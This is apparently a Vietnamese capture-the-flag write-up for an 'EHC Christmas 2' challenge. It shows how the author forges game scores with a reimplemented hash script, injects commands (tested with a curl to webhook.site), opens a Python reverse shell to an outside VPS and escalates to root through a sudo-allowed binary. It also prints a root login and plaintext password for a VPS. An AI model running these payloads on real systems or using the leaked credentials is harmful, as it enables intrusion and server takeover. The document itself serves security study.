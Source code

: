 # EHC Chirtsmas 2

![image](https://github.com/jiyuumarinshi/CTF-Wups/assets/93731698/285fe694-c32c-47d3-b546-a5af7d10affe)



## Phase1: 

- Dùng wireshark bắt tập tin của game

![image](https://github.com/jiyuumarinshi/CTF-Wups/assets/93731698/b339bd83-3b59-4516-b72e-1a232ec4a17a)


- Check được request của game gửi lên server:

![image](https://github.com/jiyuumarinshi/CTF-Wups/assets/93731698/929eb871-2fd0-4586-9ee1-e8d1cd236d4d)


Check code thì thấy đoạn hash ( sử dụng dotPeek để mở code vì file code là .Net)

![image](https://github.com/jiyuumarinshi/CTF-Wups/assets/93731698/a2d1830f-da98-4c82-a8f3-25052960befc)


Code lại hàm hash

```python
import requests
import hashlib
import json

class PlayerStatus:
    def __init__(self):
        self.mssv = ""
        self.score = ""
        self.md5 = ""
        self.access_token = ""

class Game:
    def __init__(self):
        self.player = PlayerStatus()
        self.url = "http://165.22.60.153/"

    def request_token(self):
        # Prepare and send the HTTP request for token
        data = {'mssv': self.player.mssv}
        headers = {'Content-Type': 'application/json'}
        response = requests.post(self.url + "auth", headers=headers, json=data)

        if response.status_code == 200:

         # Deserialize the response content to get the token
            token_data = response.json()
            self.player.access_token = token_data.get('access_token', '')
            return True
        else:
            return False

    def send_score(self):
        mssv = self.player.mssv
        score = self.player.score
        alpha = "abcdefghijklmnopqrstuvwxyz01234"
        md5 = hashlib.md5()

        # Constructing the string from mssv
        temp = "FU" + ''.join([mssv[i] for i in [5, 6, 2, 4, 7, 0, 3, 1]])
        
        # Bit manipulation and MD5 hash generation
        arr = [0] * 16
        j = 0
        for i in range(0, 16, 8):
            arr[i] = ord(temp[j]) >> 3 & 31
            arr[i + 1] = (ord(temp[j]) << 2 | ord(temp[j + 1]) >> 6) & 31
            arr[i + 2] = ord(temp[j + 1]) >> 1 & 31
            arr[i + 3] = (ord(temp[j + 1]) << 4 | ord(temp[j + 2]) >> 4) & 31
            arr[i + 4] = (ord(temp[j + 2]) << 1 | ord(temp[j + 3]) >> 7) & 31
            arr[i + 5] = ord(temp[j + 3]) >> 2 & 31
            arr[i + 6] = (ord(temp[j + 3]) << 3 | ord(temp[j + 4]) >> 5) & 31
            arr[i + 7] = ord(temp[j + 4]) & 31
            j += 5

        arr2 = [ord(alpha[i]) for i in arr]
        arr3 = [ord(c) ^ 105 for c in score]

        # Combining and hashing the arrays
        res = arr2 + arr3
        buffer = bytes(res)
        md5.update(buffer)
        self.player.md5 = md5.hexdigest()
        print("Hash:", self.player.md5)

        # Prepare and send the HTTP request
        headers = {'Authorization': f'Bearer {self.player.access_token}'}
        print("token:", headers)
        data = {'score': self.player.score, 'hash': self.player.md5}
        response = requests.post(self.url + "score", headers=headers, json=data)
        return response.text

# Example usage
game = Game()

# User input for MSSV and score
game.player.mssv = input("Enter your MSSV (student ID): ")
game.player.score = input("Enter your score: ")

# Request token
if game.request_token():
    print("Token acquired successfully.")
    response_content = game.send_score()
    print("Response:",response_content)
else:
    print("Failed to acquire token.")

```

- Từ đoạn code này ta có thể can thiệp điểm số trên server của mỗi MSSV có thể sửa chỉnh tùy ý

## Phase 2:

- Sau khi đã can thiệp vào chỉnh sửa điểm thì ta có thể khẳng định đây là chain để khai thác. Nhưng sau khi thử 7749 các payload chỉnh số, bof, dùng hex thì nhận được thông báo lỗi là “score must be integer”

![image](https://github.com/jiyuumarinshi/CTF-Wups/assets/93731698/129b627c-27e0-4089-a70e-ce694cadf749)


- Tới đây cũng khá stuck nhưng mình nghĩ tới một loại lỗ hổng cũng hay được sử dụng trong các tình huống như thế này là `command injection` vì từ đầu author đã nói RE → RCE → Leo Root nên mình nghĩ ngay tới trường hợp này. Nhưng mình cũng đã thử và hầu như bị giống lỗi tới trên ảnh.

- Mình thử dùng webhook xem liệu có thể curl đc về không

Payload:  curl https://webhook.site/290976bf-bd78-4269-ad3a-8465aba5b3ad

Chạy code ta sẽ thấy có thông báo pop về webhook nhưng không có content, đó cũng chính dấu hiệu để ta nghĩ tới reverse shell:

![image](https://github.com/jiyuumarinshi/CTF-Wups/assets/93731698/7656b8d3-0dec-438e-b288-5d6ce32ac722)


Shell: 

https://www.revshells.com/

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("your_vps",your_port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

- Ở đây ta có thể dùng nc -lvnp port bất kỳ để có thể dùng cho vps

![Untitled](https://prod-files-secure.s3.us-west-2.amazonaws.com/4441047c-8a9e-4487-927d-2c773dbdf11e/ca261e48-878a-4a21-b437-ea4eeba97415/Untitled.png)

Vdu ở đây mình có 1 vps 

karim: [206.189.32.66](https://l.facebook.com/l.php?u=http%3A%2F%2F206.189.32.66%2F%3Ffbclid%3DIwAR1J4Rn3sSYoq2Sau9ill_kK3p6v-E4DyYG7DGdAkg-wnZYQrJKIvjVZ438&h=AT0JdfaMHEEKz-3sAhUF8wj3iBaI5iaoOU0Etjg-DnW3p9sYVBQsEOGD4R1ZEM9Br5ExZd88fZva_sqLNsTqWh1vlf_wvNBn9tv2HADUkqrr22jDtiXeMogBvBSXK5JCzRKvhg)

user: root
password: 2FGRrD3KaFrxUrCJFuaQp

Tạo 1 port để reverse shell vô 

![image](https://github.com/jiyuumarinshi/CTF-Wups/assets/93731698/120d7a86-1df2-4436-b011-866ec11da156)


Revshell thành công 

![image](https://github.com/jiyuumarinshi/CTF-Wups/assets/93731698/3971502a-1c9c-45e4-a324-1502da6acd2d)

![image](https://github.com/jiyuumarinshi/CTF-Wups/assets/93731698/d9bb0b07-540f-4e70-8f0b-af1bb3407ea3)


- Đi dạo một vòng lật tung server ta sẽ khó có thể thấy điều gì khả nghi, lúc này thử sudo su nhưng không được nên mình thử sudo -l

![image](https://github.com/jiyuumarinshi/CTF-Wups/assets/93731698/86453440-b210-45d9-88b9-8f4f374a6b2d)


- Mình thấy nó hiện NOPASSWD: /bin/gift nên thử xem thì biết đó là 1 file execute của linux.


## Phase3: 

- Sau khi có được file gift mình bắt đầu reverse file này, nó là elf64, yêu cầu 2 argument lúc chạy một cái là tên một cái là wish number, r lúc chạy yêu cầu nhập thêm 1 số, rồi sau đó gọi hàm check.

- Debug một hồi thì phân tích nhẹ sau:

![image](https://github.com/jiyuumarinshi/CTF-Wups/assets/93731698/8e463a55-ff29-45b5-883b-717bbf62f698)


- Ý đồ của tác giả muốn nhảy đến là chỗ leave rax, forma, mà trong code k có chỗ nào gọi cái hàm này. Nên là mk nghĩ đến lệnh ret để return đến một địa chỉ trên stack, mà trong các function đc gọi có dùng input từ mk chỉ có 1 function có lệnh ret thôi chính. Vậy nên mình phải sửa đc địa chỉ return của hàm này để point đến địa chỉ mình trả về. Cụ thể địa chỉ mình muốn trở về có đuôi là 0x56 cái chỗ đã nói ở trên và trong cái hàm có lệnh ret, có 1 chỗ cho phép mình có thể ghi vào 1 vùng nhớ đc tính toán dựa trên input mình nhập vào.

![image](https://github.com/jiyuumarinshi/CTF-Wups/assets/93731698/c0f15fbb-e68c-4b4d-8ccd-db1c0c87a9c1)


- Địa chỉ pointer_name với địa chỉ của cái mk trỏ đến là đc hardcode dựa vào cùng 1 base và mình tính độ lệnh giữa 2 chỗ này thì wish_number tính được là -40. Debug đoạn code tên tìm đc giá trị của `pointer_name` ( cái này mình đặt cho dễ hiểu ). Trong ida thì nó là địa chỉ của biến dest trong IDA và nó tính là địa chỉ của pointer_name + giá trị của wishnumber. Chính là địa chỉ sẽ đc ghi đè giá trị processed_number, là cái number mk enter vào sau đó. Và mình đang muốn ghi đề giá trị trả về của hàm này trên debuger mình sẽ xác định đc địa chỉ trả về của hàm này. Địa chỉ trả về của hàm này cách địa chỉ trả về của ida một khoảng k đổi = -40, -40 ở đây giúp ta nhảy đến địa chỉ trả về của function đang đc gọi.

- Sau đó mình sẽ sửa được địa chỉ trả về còn 57. Chỗ yêu cầu mình nhập vào thì nó gọi 1 hàm thay đổi cái input đấy và muốn ghi vào giá trị 0xd6. Hàm ý sẽ thực hiện là `x+157` thì tìm được `x=57` .

- Sau khi phân tích sau điều kiện cần và đủ ta sẽ thực hiện rce bằng reverse shell vào server sau đó sử dụng command sau:

       

        Payload: `sudo /bin/gift hacked wishhh -40` 

****

![image](https://github.com/jiyuumarinshi/CTF-Wups/assets/93731698/afe0d447-47d7-4437-a9a5-853124427189)


- cd /root

![image](https://github.com/jiyuumarinshi/CTF-Wups/assets/93731698/740e02df-16d3-4051-b108-eca1518c2dc4)


- Tìm được 2 file trong root và đọc root.txt đã thấy flag

![image](https://github.com/jiyuumarinshi/CTF-Wups/assets/93731698/2d517603-445f-4e13-9988-2d2b1bc81207)


![image](https://github.com/jiyuumarinshi/CTF-Wups/assets/93731698/ad64d769-8c94-4c70-ace6-abde509eb2b5)


- Mình sẽ phân tích tiếp rất nhiều điều thú vị của thử thách này, còn rất nhiều điều mình muốn nói tạm viết lại để đỡ quên hehe~~coming soon~~
